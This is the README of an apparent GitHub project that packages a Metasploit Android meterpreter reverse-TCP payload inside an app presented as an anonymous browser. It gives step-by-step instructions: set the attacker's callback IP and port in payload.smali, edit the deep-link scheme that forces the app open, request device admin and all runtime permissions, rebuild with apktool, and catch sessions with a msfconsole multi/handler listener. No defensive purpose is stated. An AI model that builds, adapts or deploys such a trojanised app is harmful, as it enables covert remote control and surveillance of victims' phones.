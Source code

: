 <p align="center">
<img src="https://github.com/Ba-hub/Startpage/raw/master/logo.png" height="60"><br>
A Metasploit Base Payload & Anonymous Browser Interface
</p>



## Features
- Listening Connection By Metasploit Framework 
- android/meterpreter/reverse_tcp 
- Added Deep Link Service
- Enable Device Admin Apk 
- Enable all permission in run time 

## Prerequisites 
 - Metasploit Framework
    - apktool
 - apk-signer click [HERE](https://github.com/Ba-hub/apk-signer.git) for Repository Clone


## Screenshot 
<img src="https://github.com/Ba-hub/Startpage/ss1.png" height="100"><br>

<img src="https://github.com/Ba-hub/Startpage/ss2.png" height="100"><br>

<img src="https://github.com/Ba-hub/Startpage/ss3.png" height="100"><br>

## Instructions

** Go to payload.smali Line No 19

```
.field public static final URL:Ljava/lang/String; = "ZZZZtcp://192.168.225.178:4444"

```

---- Change The IP Or Port 

** Go to AndroidManifeast.xml Line No 42

```
<data android:host="www.github.com" android:pathPrefix="/Ba-hub" android:scheme="myapp" />

```

--- change the host | pathPrefix | scheme [http/https/myapp] as your Wish Which Is Force to Open App By Your Provided URL same As Above 

### Apk Build 

``` 
apt install apktool 

apktool b -f Startpage -o Startpage.apk

```
You Can Also Edit By ApkEditor & ApkEditor Pro click [HERE](https://iconicbabay.github.io/download-anythings/) for downloads the Demo Apk 



### Listening Connection By Metasploit

```

msfconsole -q

msf6> use exploit/multi/handler

msf6> set payload android/meterpreter/reverse_tcp 

msf6> set LHOST <IP>

msf6> set LPORT <port>

msf6> exploit -j 

```

    

<br>
<p align="center">Made with 💀 By <a href="http://iconicbabay.medianewsonline.com">Ghosthub</a></p>

